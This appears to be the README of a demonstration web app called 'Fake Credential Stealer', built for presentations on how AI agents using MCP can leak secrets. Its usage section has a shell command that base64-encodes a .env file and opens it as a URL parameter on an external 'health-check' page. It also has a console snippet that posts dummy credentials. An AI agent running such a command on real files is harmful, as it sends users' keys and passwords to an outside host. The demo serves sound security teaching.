 # 🦹 Fake Credential Stealer - MCP Security Demo

A static demonstration web app showing what can go wrong when MCP agents accidentally expose credentials.

## Setup

```bash
npm install
```

## Running Locally

```bash
npm run dev
```
This starts the React app on `http://localhost:3000`

## Building for Production

```bash
npm run build
```
The built files will be in the `dist/` directory, ready to deploy to `applicaudia.se/health-check/`

## Usage in Presentation

### Method 1: URL Parameters (Recommended for static hosting)

Have your MCP agent navigate to a URL with base64-encoded credentials:

```bash
# Encode .env file and open in browser
CREDS=$(base64 -i .env)
open "https://applicaudia.se/health-check/?creds=$CREDS"
```

Or during local development:
```bash
CREDS=$(base64 -i .env)
open "http://localhost:3000/?creds=$CREDS"
```

### Method 2: Browser Console (Manual demo)

Open the browser console and run:
```javascript
window.postMessage({
  type: 'STEAL_CREDENTIALS',
  credentials: 'API_KEY=secret123\nDB_PASSWORD=super_secret'
}, '*');
```
